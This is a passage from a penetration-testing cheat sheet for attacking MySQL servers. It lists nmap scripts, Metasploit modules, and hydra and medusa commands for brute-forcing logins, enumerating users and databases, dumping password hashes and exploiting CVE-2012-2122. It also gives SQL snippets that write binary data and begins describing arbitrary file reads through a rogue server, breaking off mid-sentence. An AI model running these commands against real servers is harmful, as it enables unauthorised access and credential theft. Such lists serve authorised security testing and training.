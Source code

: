 | 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35  | \# !!!! You should edit --script-args for your MYSQL Server !!!  \# Audits MySQL database server security configuration nmap -p 3306 --script mysql-audit --script-args "mysql-audit.username='root', \\  mysql-audit.password='foobar',mysql-audit.filename='nselib/data/mysql-cis.audit'" 192.168.x.x  \# Bruteforce accounts and password against a MySQL Server nmap --script=mysql-brute --script-args userdb=users.txt,passdb=passwords.txt -p 3306 192.168.x.x  \# Attempts to list all databases on a MySQL server. (creds required) nmap -sV --script=mysql-databases -p 3306 192.168.x.x  \#Dumps the password hashes from an MySQL server in a format suitable (creds required) nmap --script mysql-dump-hashes --script-args='username=root,password=secret' -p 3306 192.168.x.x  \# Checks for MySQL servers with an empty password for root or anonymous. nmap -sV --script=mysql-empty-password -p 3306 192.168.x.x  \# Performs valid-user enumeration against MySQL server using a bug nmap --script=mysql-enum -p 3306 192.168.x.x  \# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt. nmap -sV -sC -p 3306 192.168.x.x  \# Runs a query against a MySQL database and returns the results as a table. (creds required) nmap --script mysql-query --script-args='query="\<query\>"[,username=\<username\>,password=\<password\>]' -p 3306 192.168.x.x  \# Attempts to list all users on a MySQL server. nmap -sV --script=mysql-users -p 3306 192.168.x.x  \# Attempts to show all variables on a MySQL server. nmap -sV --script=mysql-variables -p 3306 192.168.x.x  \# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes.  nmap --script mysql-vuln-cve2012-2122 -p3306 192.168.x.x  |
|--------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Some of the enumeration actions require valid credentials

| 1 2 3 4 5 6  | msf\> use auxiliary/scanner/mysql/mysql_version msf\> use auxiliary/scanner/mysql/mysql_authbypass_hashdump msf\> use auxiliary/scanner/mysql/mysql_hashdump \#Need Credential msf\> use auxiliary/admin/mysql/mysql_enum \#Need Credential msf\> use auxiliary/scanner/mysql/mysql_schemadump \#Need Credential msf\> use exploit/windows/mysql/mysql_start_up \#Execute commands Windows, Need Credential  |
|--------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Brute Forcing

| 1 2 3  | hydra -L usernames.txt -P pass.txt \<IP\> mysql msf\> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false medusa -h \<IP/Host\> -u \<username\> -P \<password_list\> \<-f \| to stop medusa on first success attempt\> -t \<threads\> -M mysql  |
|--------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Write any binary data

| 1 2  | CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY) CONVERT(from_base64("aG9sYWFhCg=="), BINARY)  |
|------|---------------------------------------------------------------------------------------------------------------|

MySQL arbitrary read file by client

Actually, when you try to load data local into a table the content of a file the MySQL or MariaDB server asks the client to read it and send the content. Then, if you can tamper a mysql client to connect to your own MyQSL server, you can read arbitrary files.

Please notice that this is the behaviour using:
